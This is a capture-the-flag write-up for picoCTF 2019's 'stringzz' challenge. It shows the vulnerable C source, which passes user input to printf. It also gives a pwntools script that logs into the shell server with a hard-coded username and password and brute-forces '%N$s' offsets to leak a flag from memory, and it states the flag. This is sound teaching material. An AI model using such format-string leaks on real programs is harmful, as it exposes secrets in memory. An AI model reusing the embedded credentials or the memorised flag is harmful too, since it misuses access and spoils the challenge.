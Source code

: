 # Problem
Use a format string to pwn this [program](https://2019shell1.picoctf.com/static/30898633a200c66857014a1e600171fd/vuln) and get a flag. Its also found in /problems/stringzz_4_a95d63468fc56e11a9e406b68c4b3a4a on the shell server. [Source](https://2019shell1.picoctf.com/static/30898633a200c66857014a1e600171fd/vuln).

## Hints:

http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf

## Solution:

Lets download the files:
```bash
wget https://2019shell1.picoctf.com/static/30898633a200c66857014a1e600171fd/vuln
wget https://2019shell1.picoctf.com/static/30898633a200c66857014a1e600171fd/vuln.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAG_BUFFER 128
#define LINE_BUFFER_SIZE 2000

void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    printMessage1(input);
    fflush(stdout);
 
}
```

We can see that ```input``` will be treated as the [format string](https://en.wikipedia.org/wiki/Printf_format_string).
We can try to calculate the exact offset of ```buf```, of just enumerate it.

Let's write a simple code
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

if debug:
  pass
else:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)

  s.set_working_directory('/problems/stringzz_4_a95d63468fc56e11a9e406b68c4b3a4a')
  p = s.process('./vuln')

offset = 0

while True:
  if debug:
    p = process('./vuln')
  else:
    p = s.process('./vuln')

  print p.recv()

  p.sendline('%{}$s'.format(offset))

  flag = p.recvall()

  if 'picoCTF' in flag:
    log.info('Found flag at offset: {}'.format(offset))

    break

  p.close()

  offset += 1

print flag
```

And we found it in offset ```37```.

Flag: picoCTF{str1nG_CH3353_159c98a8}